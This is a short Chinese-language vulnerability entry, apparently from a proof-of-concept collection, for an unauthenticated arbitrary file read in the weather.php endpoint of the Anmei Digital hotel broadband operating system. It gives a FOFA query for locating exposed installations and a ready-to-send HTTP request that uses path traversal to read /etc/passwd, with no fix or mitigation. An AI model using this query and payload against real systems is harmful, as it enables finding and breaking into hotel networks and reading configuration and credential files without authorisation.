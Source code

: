 # 安美数字酒店宽带运营系统weather.php任意文件读取漏洞

安美数字酒店宽带运营系统 weather.php 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```yaml
app="安美数字-酒店宽带运营系统"
```

## poc

```java
GET /user/weather.php?Lang=../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408122118099.png)